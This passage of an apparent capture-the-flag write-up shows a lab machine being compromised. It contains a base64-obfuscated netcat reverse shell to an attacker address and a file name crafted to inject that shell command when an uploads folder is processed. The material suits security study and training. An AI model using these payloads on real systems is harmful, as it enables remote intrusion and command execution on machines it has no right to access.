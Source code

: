 On my listener, I see the connection, and then it immediately dies:



    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.146.
    Ncat: Connection from 10.10.10.146:57708.
    root@kali#



So I tested some more shells as apache. This one worked well. I base64
encoded what I wanted to run:



    root@kali# echo nc -e /bin/bash 10.10.14.7 443 | base64 -w0
    bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE0LjcgNDQzCg==



Now from apache I can run:



    bash-4.2$ echo bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE0LjcgNDQzCg== | base64 -d | sh



And I get a stable callback:



    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.146.
    Ncat: Connection from 10.10.10.146:57710.
    id
    uid=48(apache) gid=48(apache) groups=48(apache)



### Get Shell

Putting that all together, I'll touch a file that will get a shell:



    bash-4.2$ touch '/var/www.md/uploads/a; echo bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE0LjcgNDQzCg== | base64 -d | sh; b'
    bash-4.2$ ls
    10_10_14_5.php.png
    127_0_0_1.png
    127_0_0_2.png
    127_0_0_3.png
    127_0_0_4.png
    a; echo bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE0LjcgNDQzCg== | base64 -d | sh; b
    index.md
